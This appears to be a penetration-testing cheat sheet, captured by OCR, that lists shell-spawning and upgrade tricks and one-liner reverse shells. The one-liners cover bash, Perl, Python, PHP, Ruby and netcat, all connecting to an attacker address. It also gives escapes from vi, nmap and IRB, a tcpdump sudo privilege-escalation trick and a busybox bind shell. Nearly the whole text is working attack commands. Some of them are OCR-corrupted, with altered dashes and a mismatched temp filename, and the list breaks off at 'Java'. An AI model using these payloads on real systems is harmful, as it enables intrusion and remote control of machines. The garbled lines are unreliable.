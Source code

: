   ```shell
  ssh user@$ip nc $localip 4444 -e /bin/sh
  enter user's password
  python -c 'import pty; pty.spawn("/bin/sh")'
  export TERM=linux
  ```

  - `python -c 'import pty; pty.spawn("/bin/sh")'`
  - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'`
  - `echo os.system('/bin/bash')`
  - `/bin/sh -i`
  - `perl —e 'exec "/bin/sh";'`
  - perl: `exec "/bin/sh";`
  - ruby: `exec "/bin/sh"`
  - lua: `os.execute('/bin/sh')`
  - From within IRB: `exec "/bin/sh"`
  - From within vi: `:!bash`
      or
  - `:set shell=/bin/bash:shell`
  - From within vim `':!bash':`
  - From within nmap: `!sh`
  - From within tcpdump: `echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root`
  - From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

- Pen test monkey PHP reverse shell  
  - Bash
    - Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
      `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
  - PERL
    - Here’s a shorter, feature-free version of the perl-reverse-shell:
      `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
    - There’s also an alternative PERL revere shell here.
  - Python
    - This was tested under Linux / Python 2.7:
      `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
  - PHP
    - This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
      `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
  - Ruby
      `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
  - Netcat
    - Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
      `nc -e /bin/sh 10.0.0.1 1234`
    - If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
  - Java

